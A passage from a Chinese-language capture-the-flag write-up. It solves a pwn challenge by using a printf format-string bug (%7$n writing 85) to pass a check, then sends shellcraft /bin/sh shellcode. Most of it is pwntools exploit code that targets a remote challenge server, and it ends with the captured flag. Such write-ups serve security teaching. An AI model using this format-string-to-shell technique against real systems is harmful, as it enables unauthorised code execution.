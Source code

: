 ```c#
  return __readfsqword(0x28u) ^ v3;
}
```

但是，要运行至此处，要先满足 if ( *a1 == a1[1] )，a1是第一层的v4传入函数的形参，就是打印出来的地址。 a[0]=v4[0]=v3[0]=68 , a[1]=v4[1]=v3[1]=85 。要将a[0]和a[1]修改为相同的值。可以通过sub_400BB9();函数中printf(&format, &format); 格式化字符串任意写的漏洞来修改。函数sub_400BB9()内的v2是我们输入的v4的地址，我们需要知道v2在栈内的位置，这样才能通过 %?$n 向v2指向的地址处写入字符串长度。

```python
#查看sub_400BB9()栈内情况 
from pwn import * 
p = remote("111.200.241.244",57862) 
context(arch='amd64', os='linux', log_level='debug')
p.recvuntil('secret[0] is ') 
v4_addr = int(p.recvuntil('\n')[:-1], 16)  #获取v4地址,注意把末尾的 \n 剔除
p.sendlineafter("What should your character's name be:", 'cxk') 
p.sendlineafter("So, where you will go?east or up?:", 'east') 
p.sendlineafter("go into there(1), or leave(0)?:", '1') 
p.sendlineafter("'Give me an address'", str(int(v4_addr))) 
p.sendlineafter("And, you wish is:",'AAAAAAAA'+'-%p'*10) #找到v2在栈中的位置
p.recvuntil('I hear it')
''''Your wish is\n'
    'AAAAAAAA-0x7fe7485bb6a3-0x7fe7485bc780-0x7fe7482ed2c0-0x7fe7487e3700-0x7fe7487e3700-0x100000022-0x1013010-0x4141414141414141-0x252d70252d70252d-0x2d70252d70252d70I hear it, I hear it....\n'
    'Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!\n'
'''
```

0x1013010是v2的内容，因为v2在format的前面一位，而通过0x4141414141414141可以找到format的起始位置。v2是栈内第7个参数。通过格式化字符串漏洞绕过判断后，执行shellcode，拿到主机权限。

```python
from pwn import * 
p = remote("111.200.241.244","57862") 
context(arch='amd64', os='linux', log_level='debug') 
p.recvuntil('secret[0] is ') 
v4_addr = int(p.recvuntil('\n')[:-1], 16) #获取v4地址,注意把末尾的 \n 剔除
p.sendlineafter("What should your character's name be:", 'cxk')
p.sendlineafter("So, where you will go?east or up?:", 'east') 
p.sendlineafter("go into there(1), or leave(0)?:", '1') 
p.sendlineafter("'Give me an address'", str(int(v4_addr))) 
p.sendlineafter("And, you wish is:", 'A' * 85 +'%7$n') #将85写入栈内第7个参数所指向的地址。
shellcode = asm(shellcraft.sh()) #获得执行system(“/bin/sh”)汇编代码
p.sendlineafter("USE YOU SPELL", shellcode) 
p.interactive()
```

cyberpeace{7ddc52779438fbe1a0db0b9fa506d3d0}